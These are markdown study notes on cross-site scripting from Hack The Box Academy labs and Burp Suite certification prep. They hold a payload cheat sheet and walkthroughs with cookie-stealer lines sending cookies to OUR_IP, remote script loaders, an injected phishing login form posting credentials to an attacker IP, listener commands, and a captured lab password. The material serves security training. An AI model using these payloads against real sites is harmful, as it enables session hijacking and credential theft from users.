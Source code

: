 # Cross-site Scripting (XSS)  

>Burp Suite Certified Practitioner (BSCP) [My Study Notes on XSS](https://github.com/botesjuan/Burp-Suite-Certified-Practitioner-Exam-Study#cross-site-scripting)  

## Commands  

| Code | Description |
| ----- | ----- |
| **XSS Payloads** |
| `<script>alert(window.origin)</script>` | Basic XSS Payload [XSS Testing Payloads](https://academy.hackthebox.com/module/103/section/967) |
| `<script>alert(document.cookie)</script>` | To get the flag, use the same payload we used above, but change its JavaScript code to show the cookie instead of showing the url. |
| `<plaintext>` | Basic XSS Payload |
| `http://94.237.62.82:55501/index.php?task=%3Cscript%3Ealert%28document.cookie%29%3C%2Fscript%3E` | Reflected XSS, which gets processed by the back-end server, and DOM-based XSS, which is completely processed on the client-side and never reaches the back-end server. |
| `document.getElementById("todo").innerHTML = "<b>Next Task:</b> " + decodeURIComponent(task);` | [Identify DOM-XSS in the JavaScript source of the client browser](https://github.com/botesjuan/Burp-Suite-Certified-Practitioner-Exam-Study#identify-dom-xss)  
| `<script>print()</script>` | Basic XSS Payload |
| `<img src="" onerror=alert(window.origin)>` | HTML-based XSS Payload |
| `<img src="" onerror=alert(document.cookie)>` | [DOM Attacks](https://academy.hackthebox.com/module/103/section/974) |
| `<script>document.body.style.background = "#141d2b"</script>` | Change Background Color |
| `<script>document.body.background = "https://www.hackthebox.eu/images/logo-htb.svg"</script>` | Change Background Image |
| `<script>document.title = 'HackTheBox Academy'</script>` | Change Website Title |
| `<script>document.getElementsByTagName('body')[0].innerHTML = 'text'</script>` | Overwrite website's main body |
| `<script>document.getElementById('urlform').remove();</script>` | Remove certain HTML element |
| `<script src="http://OUR_IP/script.js"></script>` | Load remote script |
| `<script>new Image().src='http://OUR_IP/index.php?c='+document.cookie</script>` | Send Cookie details to us |
| **Commands** |
| `python xsstrike.py -u "http://SERVER_IP:PORT/index.php?task=test"` | Run `xsstrike` on a url parameter |
| `sudo nc -lvnp 80` | Start `netcat` listener |
| `sudo php -S 0.0.0.0:80 ` | Start `PHP` server |


## Identify XSS  

>Simple test payload on target with no protection to identify XSS Reflection: [XSS Discovery](https://academy.hackthebox.com/module/103/section/982)  

```
<script>alert('pass')</script>
```  

![xss-identify](/images/xss-identify.png)  

## Phishing + XSS  

>[Phishing ](https://academy.hackthebox.com/module/103/section/984)  

>Try to find a working XSS payload for the Image URL form found at '/phishing' in the `http://10.129.63.83/phishing/index.php` server.
>Then use what you learned in this section to prepare a malicious URL that injects a malicious login form.
>Then visit '/phishing/send.php' to send the URL to the victim
>The victim user will log into the malicious login form. 
>If you did everything correctly, you should receive the victim's login credentials.
>Use obtained victim login gain access to '/phishing/login.php' and obtain the flag.  

>XSS injection point identified in source code below:  

![xss-source-code-review](/images/xss-source-code-review.png)  

>Below below uses `'>` to break out of te source code img tag.  

```
http://10.129.63.83/phishing/index.php?url=http://10.10.15.41/image.png'><script>alert('xss found')</script>
```  

![xss-phishing-found](/images/xss-phishing-found.png)  

>Login Form Injection phishing attack

```html
<div>
<h3>Please login to continue</h3>
<input type="text" placeholder="Username">
<input type="text" placeholder="Password">
<input type="submit" value="Login">
<br><br>
</div>
```  

>Use above and make Single JavaScript Cookie Stealer one-liner:

```
document.write('<h3>Please login to continue</h3><form action=http://10.10.15.41><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');
```  

![xss-cleanup](/images/xss-cleanup.png)  

>Removing the target function input box to get victim to login and provide credentials instead.
>From source code the HTML element we need to remove is the `urlform` id.  

```JavaScript
document.getElementById('urlform').remove();
```  

>Combine above remove functions with single oneline payload:  

```JavaScript
<script>
document.write('<h3>Please login to continue</h3><form action=http://10.10.15.41><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');document.getElementById('urlform').remove();
</script>
<!--
```  

![XSS-Phishing-payload-remove-html-id](/images/XSS-Phishing-payload-remove-html-id.PNG)  

>Using Exploit send phishing link url to victim: `http://10.129.63.83/phishing/send.php`.  

>Once the link send the kali hosted `python3 -m http.server 80` service receive the credentials from victim that clicked on the link and typed their info.

![xss-phishing-server](/images/xss-phishing-server.png)  

```
username=admin&password=p1zd0nt57341myp455
```

## Cookie Stealer  

>BSCP Study notes contain many examples of [cookie stealer payloads](https://github.com/botesjuan/Burp-Suite-Certified-Practitioner-Exam-Study#dom-based-xss)  

>[Session Hijacking](https://academy.hackthebox.com/module/103/section/1008) aka Cookie Stealer attacks.  

>Target URL: `http://10.129.63.83/hijacking/`  

![cookie-stealer-register](/images/cookie-stealer-register.png)  

>Target response message read, `An Admin will review your registration request.`.  

>Identify vulnerable input field with sample javascript payload: `<script src="http://OUR_IP/username"></script>`  

### Remote JS File Include  

>Using below payload to test how to escape and [load remote JavaScript file](https://academy.hackthebox.com/module/103/section/1008).

```html
<script src=http://10.10.15.41/1></script>
'><script src=http://10.10.15.41/2></script>
"><script src=http://10.10.15.41/3></script>
javascript:eval('var a=document.createElement(\'script\');a.src=\'http://OUR_IP\';document.body.appendChild(a)')
<script>function b(){eval(this.responseText)};a=new XMLHttpRequest();a.addEventListener("load", b);a.open("GET", "//OUR_IP");a.send();</script>
<script>$.getScript("http://OUR_IP")</script>
```  

>Successfully Identified the URL field with this payload: `"><script src=http://10.10.15.41/3l33t.js></script>`, Loading a Remote Script.  









